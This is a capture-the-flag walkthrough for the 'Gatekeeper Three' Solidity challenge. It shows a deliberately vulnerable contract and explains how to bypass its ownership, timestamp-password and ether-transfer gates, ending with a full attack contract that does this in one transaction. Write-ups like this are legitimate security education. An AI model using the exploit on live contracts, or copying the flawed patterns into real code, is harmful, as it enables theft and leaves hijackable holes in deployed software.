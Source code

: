# Gatekeeper Three

## Challenge Description

Cope with gates and become an entrant.

##### Things that might help:

-   Recall return values of low-level functions.
-   Be attentive with semantic.
-   Refresh how storage works in Ethereum.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (
            address(this).balance > 0.001 ether &&
            payable(owner).send(0.001 ether) == false
        ) {
            _;
        }
    }

    function getAllowance(uint _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

## Challenge Solution Walkthrough

To pass the three gates in the contract, let's go through each gate and provide the necessary steps:

**Gate One:** This gate requires the `msg.sender` to be the `owner` but the `tx.origin` should not be the `owner`. We can see a `construct0r()` in the contract the sets the `owner`, but there is a typo in the name of it, so it will not be executed when the contract is being created. To verify, open the console and write the command below:

```solidity
> await contract.owner()
< '0x0000000000000000000000000000000000000000'
```

So, we can call the `construct0r()` function to become the `owner`; however, we should call it from a contract, and using that contract call the `construct0r()` function. The underlying reason is that this gate requires the `msg.sender` to be the `owner`, but not the `tx.origin`. If we call the contract directly, `msg.sender` would be equal to `tx.origin`, so we create and deploy a contract and using that contract we call the `construct0r()` to make the deployed contract the `owner`, and we are not the `owner` anymore.

**Gate Two:** For passing the second gate, we have to set `allowEntracnce` variable to true. We can see that it is initially false:

```javascript
> await contract.allowEntrance()
< false
```

To make it true, we have call the `getAllowance()` function with the correct `password`, but previously, we have to create the contract, because the contract has not been created yet. To verify, we can run the command below:

```javascript
> await contract.trick()
< '0x0000000000000000000000000000000000000000'
```

So, we have to first call the `createTrick()` function. When the `SimpleTrick` contract is being created `uint private password = block.timestamp;` will be executed, so if we call the `createTrick()` function and `getAllowance()` function in the same time to be mined in the same block, for both of them the `block.timestamp` would be the same. So, we create a contract and in that contract we call `createTrick()` and `getAllowance(block.timestamp)` in a function.

**Gate Three:** To pass this gate, we have to transfer more than 0.001 ether to this contract, but we have to not receive any ethers. To do so, we create a contract, but do not implement any `receive()` or `fallback()` function. So, no one can send ether to the contract.

Based on the given information, the solution contract would be:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GatekeeperThree.sol";

error TransactionFailed();

contract GatekeeperThreeSolution {
    GatekeeperThree public gatekeeperThree;

    constructor(address gatekeeperThreeAddress) {
        gatekeeperThree = GatekeeperThree(payable(gatekeeperThreeAddress));
    }

    function solveChallenge() public payable {
        gatekeeperThree.construct0r();

        gatekeeperThree.createTrick();
        gatekeeperThree.getAllowance(block.timestamp);

        (bool success, ) = address(gatekeeperThree).call{ value: msg.value }(
            ""
        );
        if (success == false) revert TransactionFailed();

        gatekeeperThree.enter();
    }
}
```

In the `solveChallenge()` function we first call the `construct0r()` to make the contract `owner`. Then, we call the `createTrick()` function and `getAllowance(block.timestamp)` to make `allowEntrance` to true. Note that since both of them will be mined in the same block, the `block.timestamp` would be the same. Finally, we send 0.001 ether to the `GatekeeperThree` contract, but we do not define any `fallback()` or `receive()` function.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Nice job! For more information read [this](https://web3js.readthedocs.io/en/v1.2.9/web3-eth.html?highlight=getStorageAt#getstorageat) and [this](https://medium.com/loom-network/ethereum-solidity-memory-vs-storage-how-to-initialize-an-array-inside-a-struct-184baf6aa2eb).
